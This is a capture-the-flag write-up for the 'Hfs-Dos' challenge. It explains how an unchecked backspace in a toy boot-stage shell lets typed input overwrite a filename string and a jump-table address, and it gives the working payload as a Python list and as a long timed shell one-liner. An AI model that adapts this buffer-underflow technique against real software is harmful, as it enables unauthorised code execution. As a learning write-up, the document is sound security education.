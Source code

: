 # Hfs-Dos
#### Author: Paweł Wieczorek aka cerber-os
*This challenge is continuation of Hfs-mbr task.*

In this challenge our goal was to print flag stored in file `FLAG2`.

###### Stage 3.
After bootloader accepts our password, it loads the third stage, which is a very simple shell named hfs-dos. Using the same method as in the previous task (i.e. in gdb: setting breakpoint and dumping program code), we've extracted program of this shell and started reverse engineering.

There was a bug in the way program handles backspace key - it decreases pointer to the current letter in buffer, but does not check if any character is still there. By using this vulnerability we could decrease the pointer to where our 4 letter command will be entered and overwrite data behind input buffer. The interesting part of program memory looks as follow:
```
jumpList:         dw offset loc_162         ;; Address of function ping
                  dw offset loc_165         ;; Address of function vers
                  dw offset loc_168         ;; Address of function myid
                  dw offset loc_16B         ;; Address of function pong
                  dw offset loc_16E         ;; Address of function exit
                  db  71h ; q
                  db    1
                  db 'FLAG1',0,'$'          ;; The name of file opened by function printFlag
userInputBuffer:  db    0                   ;; Input buffer
                  db    0
                  db    0
                  db    0
                  db    0
```
Our plan was to:
* overwrite the last four bytes of string `FLAG1` -> `FLAG2`
* overwrite address of `exit` function stored in `jumpList` to the address of `printFlag` function, which was used to print flag in Hfs-mbr challenge.
* call `exit` function

The payload to achive this:
```python
list("sojupwner") + ['\\n'] +                                      \
	["\\x7f"]*6 + list("LAG2") +                                   \
	["\\x7f"]*12 + ["\\x4f"] + ["\\x4f"] + ["\\x4f"] + ["\\x4f"] + \
	list("exit") + ['\\n']
```
We've tried to pipe output of `echo -ne '<above payload>'` directly to qemu, but sadly some characters were lost (maybe too fast entering). To solve this we've written simple python script injecting `sleep 0.4` beetwen each command echoing character:

```python
s = ['<above_payload>']
def gen(): 
    print("(",end="") 
    for l in s: 
    	print("sleep 0.4; echo -ne \"" + l + "\"", end="; ") 
    print(";echo \"\\n\\n\\n\") | ./run",end="")
```

The final (enormous) payload:
```sh
(sleep 0.4; echo -ne "s"; sleep 0.4; echo -ne "o"; sleep 0.4; echo -ne "j"; sleep 0.4; echo -ne "u"; sleep 0.4; echo -ne "p"; sleep 0.4; echo -ne "w"; sleep 0.4; echo -ne "n"; sleep 0.4; echo -ne "e"; sleep 0.4; echo -ne "r"; sleep 0.4; echo -ne "\n"; sleep 0.4; echo -ne "\x7f"; sleep 0.4; echo -ne "\x7f"; sleep 0.4; echo -ne "\x7f"; sleep 0.4; echo -ne "\x7f"; sleep 0.4; echo -ne "\x7f"; sleep 0.4; echo -ne "\x7f"; sleep 0.4; echo -ne "L"; sleep 0.4; echo -ne "A"; sleep 0.4; echo -ne "G"; sleep 0.4; echo -ne "2"; sleep 0.4; echo -ne "\x7f"; sleep 0.4; echo -ne "\x7f"; sleep 0.4; echo -ne "\x7f"; sleep 0.4; echo -ne "\x7f"; sleep 0.4; echo -ne "\x7f"; sleep 0.4; echo -ne "\x7f"; sleep 0.4; echo -ne "\x7f"; sleep 0.4; echo -ne "\x7f"; sleep 0.4; echo -ne "\x7f"; sleep 0.4; echo -ne "\x7f"; sleep 0.4; echo -ne "\x7f"; sleep 0.4; echo -ne "\x7f"; sleep 0.4; echo -ne "\x4f"; sleep 0.4; echo -ne "\x4f"; sleep 0.4; echo -ne "\x4f"; sleep 0.4; echo -ne "\x4f"; sleep 0.4; echo -ne "e"; sleep 0.4; echo -ne "x"; sleep 0.4; echo -ne "i"; sleep 0.4; echo -ne "t"; sleep 0.4; echo -ne "\n"; ;echo "\n\n\n") | ./run
```

After executing it on the remote machine, we've got the flag.

